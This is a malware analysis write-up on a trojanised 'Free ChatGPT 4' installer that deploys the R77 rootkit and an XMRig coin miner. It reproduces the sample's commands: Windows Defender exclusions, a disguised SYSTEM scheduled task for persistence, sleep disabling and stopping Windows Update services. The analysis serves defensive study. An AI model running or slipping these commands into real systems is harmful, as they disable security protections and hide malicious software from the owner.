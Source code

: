 ```yaml
---
Tags: Trojans
---
```

## Investigating A Fake Trojanised ChatGPT Application

This sample is a trojanised ChatGPT installer which can be downloaded as an .msi file from SourceForge. It masquerades as a Free ChatGPT 4 binary but utilises the R77 rootkit to deploy XMRig coinminer malware.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7dd1c425-3a00-49f9-871f-4fa5394e152c)

During installation, the directory 'C:\Program Files (x86)\OpenAI' is created, and process 'C:\Program Files (x86)\OpenAI\Chatgpt Desktop V4\Free Chatgpt V4\Free Chatgpt V4.exe' is executed.

This process spawns cmd.exe with the following command line:
```
C:\Windows\system32\cmd.exe /c "powershell.exe "Add-MpPreference -ExclusionPath “C:\Windows\Temp”,“C:/”,“.exe”""
```
This command will exclude any executables in the path "C:\Windows\Temp" from being looked at by Windows Defender, this is highly suspicious and indicates that something malicious is likely residing in the Temp directory.

Turning our attention to the Temp directory, we observe the following file creation event for the executable "Free Chatgpt V4.exe"

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/231c750a-27e8-4481-8cd0-9a40e7edc0dd)

Upon execution of 'Chatgpt Desktop V4.exe' which was installed on the Desktop, the binary 'Free Chatgpt V4.exe' in the Temp directory is executed silently. The same binary also exists as 'C:\Program Files\Google\Chrome\Googleupdater.exe'.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c6453e05-2b36-4c3d-b9fe-783443a73bc2)

The binaries present at 'C:\Program Files\Google\Chrome\Googleupdater.exe' and 'C:\Windows\Temp\Free Chatgpt V4.exe' are R77 rootkits

R77’s primary purpose is to hide the presence of other software on a system, making it ideal in this case to hide elements of coin miner malware.

Further commands of interest were identified, but it's difficult to gather further context surrounding them likely due to the nature of the R77 rootkit.

_A scheduled task called "GoogleUpdateXQ" is created as a persistence mechanism to execute the rookit_
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe <#sednnxbeh#> IF([System.Environment]::OSVersion.Version -lt [System.Version]"6.2") { schtasks /create /f /sc onlogon /rl highest /ru 'System' /tn 'GoogleUpdateXQ' /tr '''C:\Program Files\Google\Chrome\Googleupdater.exe''' } Else { Register-ScheduledTask -Action
(New-ScheduledTaskAction -Execute 'C:\Program Files\Google\Chrome\Googleupdater.exe') -Trigger (New-ScheduledTaskTrigger -AtStartup) -Settings (New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DisallowHardTerminate -DontStopIfGoingOnBatteries -DontStopOnIdleEnd -ExecutionTimeLimit (New-TimeSpan -Days 1000)) -
TaskName 'GoogleUpdateXQ' -User 'System' -RunLevel 'Highest' -Force; }
```

_The scheduled task is executed directly via command line_
```
C:\Windows\System32\schtasks.exe /run /tn "GoogleUpdateXQ"
```


_A command is executed which manipulates sleep functions on the host, which is a technique leveraged by coin-mining malware_
```
C:\Windows\System32\cmd.exe /c powercfg /x -hibernate-timeout-ac 0 & powercfg /x -hibernate-timeout-dc 0 & powercfg /x -standby-timeout-ac 0 & powercfg /x -standby-timeout-dc 0
```

_Legitimate Windows services are stopped, this is another indication of coin miner malware_
```
C:\Windows\System32\cmd.exe /c sc stop UsoSvc & sc stop WaaSMedicSvc & sc stop wuauserv & sc stop bits & sc stop dosvc
```

_Further Windows Defender exclusion paths are added_
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Add-MpPreference -ExclusionPath @($env:UserProfile, $env:ProgramFiles) -Force
```

These commands are a strong indication of coin-miner malware, and are similar to samples such as:

[https://any.run/report/2032ba1561fdfa8dce836c35bc1f89aa9a806c021f1ed7f7c32324b54e450290/8fe9499b-3310-40b9-afd0-51eb2a8184de](https://any.run/report/2032ba1561fdfa8dce836c35bc1f89aa9a806c021f1ed7f7c32324b54e450290/8fe9499b-3310-40b9-afd0-51eb2a8184de)

[https://www.joesandbox.com/analysis/1279914/0/lighthtml](https://www.joesandbox.com/analysis/1279914/0/lighthtml)


